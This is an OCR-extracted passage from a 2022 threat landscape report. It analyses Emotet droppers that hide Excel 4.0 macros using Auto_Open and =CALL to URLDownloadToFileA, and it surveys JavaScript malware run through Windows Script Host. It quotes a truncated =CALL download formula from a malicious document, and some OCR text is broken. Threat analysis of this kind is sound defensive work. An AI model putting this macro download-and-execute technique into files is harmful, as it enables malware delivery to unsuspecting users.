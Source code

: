 spotted in the wild. These new variants utilize Excel 4\.0 macros for dropping and executing the Emotet malware. 
Emotet operators made sure to hide the sheets containing the obfuscated macros, so when a user opens the 
document, it won’t appear suspicious. In reality, as soon as the user enables macros, the hidden code will execute. 
Excel 4\.0 takes advantage of built\-in functions such as the “Auto\-Open” function, which had previously been 
used to automatically run a macro when opening a workbook, and then call Windows functions directly such as 
“URLDownloadToFile” to download and execute the Emotet trojan. 
“Auto\_Open” Excel 4\.0 function, taken from a malicious document
Excel 4\.0 use of “\=CALL” to directly call a Windows function in order to download the Emotet trojan
Excel 4\.0 Macros
Emotet
§
§
EFEWF!$D$1
\=CALL("urlmon"," URLDownloadToFileA","JJCCBB",0,"http:/
/ada.
.
.
.
23
CYBER THREAT LANDSCAPE REPORT 2022
JavaScript 
Script\-based attacks have now become a significant threat 
for organizations of all sizes, with estimates putting them 
at 40% or more of all global cyberattacks. A script can be 
anything from a sequence of simple commands used for 
system configuration, task automation, and other general 
purposes, to more advanced, multi\-layered, and often 
obfuscated code. The most commonly used scripting 
languages are PowerShell, VBScript, and JavaScript. 
While PowerShell attacks may get more scrutiny from threat 

teams, Windows JavaScript attacks are used by threat 
actors for many of the same purposes yet present unique 
challenges in terms of detection and prevention. 
Outside of a browser — which executes JavaScript in an 
encapsulated fashion, greatly limiting that code’s interaction 
with the operating system — Windows provides facilities 
for JavaScript execution with Windows Script Host (WSH). 
It executes JavaScript (and other Windows\-supported 
scripting languages) under the wscript.exe and cscript.
exe Windows processes, providing an attack surface for 
adversaries to exploit. 
JavaScript malware can range from a simple dropper 
intended to deliver additional malware to fully\-featured, 
multi\-purpose pieces of malware in their own right. 
As threat actors around the world are developing and 
maintaining JavaScript\-based malware that is on par in 
its functionality and sophistication with anything in the 
parallel landscapes of other Windows\-supported scripting 
languages, our team explored a growing and highly active 
threat landscape. 
We have found a broad mix of both existing and often highly 
commoditized JavaScript\-based malware and more niche 
usages of JavaScript, including backdoors written by APTs. 
All forms of JavaScript attacks are gaining in popularity and 
prevalence, as threat actors from all levels are transitioning 
to the “no PE needed” mentality and embracing script\-based 
malware. 